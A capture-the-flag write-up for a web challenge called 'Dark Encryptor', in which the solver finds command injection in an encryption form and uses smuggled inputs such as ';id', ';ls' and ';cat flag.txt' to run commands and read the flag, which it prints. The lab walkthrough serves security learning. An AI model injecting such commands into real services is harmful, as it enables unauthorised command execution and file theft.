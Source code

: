 # Dark Encryptor

## Challenge Description
> ![image](https://github.com/user-attachments/assets/2c4385ce-bddd-498c-a168-b7566fe8746d)

## Solution
Upon accessing the website, a simple encryption tool was presented. The interface allowed users to enter text and select a recipient for encryption.

![image](https://github.com/user-attachments/assets/735b3f4b-d80a-4132-a8ac-b3aa74887365)

To investigate its functionality, I tested it with various inputs and examined the outputs to understand how the application processes data.

While experimenting with different inputs, I noticed a peculiar behavior:

- Encrypting regular text (e.g., "test") worked as expected.
- Encrypting special characters resulted in different responses:
  - ` caused an encryption failure.
  - **!** was encrypted successfully.
  - **#** returned an unexpected error: `Usage: python3 enc.py -r <recipient> -t <text>`

This error suggested that user input might be directly passed to a command-line function, hinting at a command injection vulnerability. Refer to https://github.com/payloadbox/command-injection-payload-list for the payloads.

To confirm the vulnerability, I attempted executing system commands using `;id`:
```
Encrypted Output:
Usage: python3 enc.py -r <recipient> -t <text>
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
```

![image](https://github.com/user-attachments/assets/3a9b0e97-9e9f-42cf-a443-712af9f20ee2)

The output confirmed that command execution was possible.

Next, I listed the files in the directory using `;ls`:
```
Encrypted Output:
Usage: python3 enc.py -r <recipient> -t <text>
app.py
app.wsgi
enc.py
flag.txt
keys
static
templates
uploads
```

![image](https://github.com/user-attachments/assets/8bfbcd34-e980-4229-9faa-61d61a0cd376)

Using ;cat flag.txt, I successfully retrieved the flag: `THM{pgp_cant_stop_me}`

![image](https://github.com/user-attachments/assets/ee48ecaa-94d0-42f1-8920-01e2b9a2aac4)

## Conclusion

This challenge demonstrated a command injection vulnerability, where user input was unsafely executed in a system command. By leveraging this flaw, I successfully extracted the flag and completed the challenge.

## Flag: 
THM{pgp_cant_stop_me}


   
